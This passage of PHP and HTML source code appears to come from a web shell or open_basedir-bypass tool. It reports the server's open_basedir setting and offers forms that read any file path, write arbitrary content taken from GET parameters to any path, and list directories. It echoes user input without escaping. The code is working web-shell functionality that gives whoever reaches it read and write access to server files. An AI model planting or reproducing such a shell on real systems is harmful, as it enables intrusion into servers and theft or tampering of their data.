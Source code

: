 ```php
</form>
</pre>
<?php
$file_path = isset($_GET['file_path']) ? $_GET['file_path'] : '';
?>
<pre id="rf">
open_basedir: <span style="color: red"><?php echo ini_get('open_basedir') ? ini_get('open_basedir') : 'Off'; ?></span>
<form style="display:inline-block" action="">
<fieldset><legend>Read File :</legend>File Path: <input name="file_path" size="100" value="<?php echo $file_path; ?>"><input type="submit" value="Read">
Description: <strong><?php echo $fileReader->getDescription(); ?></strong><input type="hidden" name="action" value="rf">
</fieldset>
</form>
</pre>
<pre id="wf">
open_basedir: <span style="color: red"><?php echo ini_get('open_basedir') ? ini_get('open_basedir') : 'Off'; ?></span>
<form style="display:inline-block" action="">
<fieldset><legend>Write File :</legend>File Path   : <input name="file_path" size="100" value="<?php echo $file_path; ?>"><input type="submit" value="Write">
File Content: <textarea cols="70" name="content"></textarea>
Description : <strong><?php echo $fileWriter->getDescription(); ?></strong><input type="hidden" name="action" value="wf">
</fieldset>
</form>
</pre>
</div>
<a href="#dl">Directory Listing</a> | <a href="#rf">Read File</a> | <a href="#wf">Write File</a>
<hr>
<pre>
<?php if ($action === 'rf'): ?>
<plaintext>
<?php
$fileReader->setFilePath($file_path);
echo $fileReader->read();
?>
<?php elseif ($action === 'wf'): ?>
<?php
if (isset($_GET['content'])) {
	$fileWriter->setFilePath($file_path);
	$fileWriter->write($_GET['content']);
	echo 'The file should be written.';
} else {
	echo 'Something goes wrong.';
}
?>
<?php else: ?>
<ol>
<?php
$directorLister->setCurrentPath($cwd);
$file_list = $directorLister->getFileList();
$parent_path = dirname($cwd);

echo "<li><a href='?cwd={$parent_path}{$append}#dl'>Parent</a></li>";
if (count($file_list) > 0) {
	foreach ($file_list as $file) {
		echo "<li><a href='?cwd={$cwd}{$file}{$append}#dl'>{$file}</a></li>";
	}
} else {
	echo 'No files found. The path is probably not a directory.';
}
```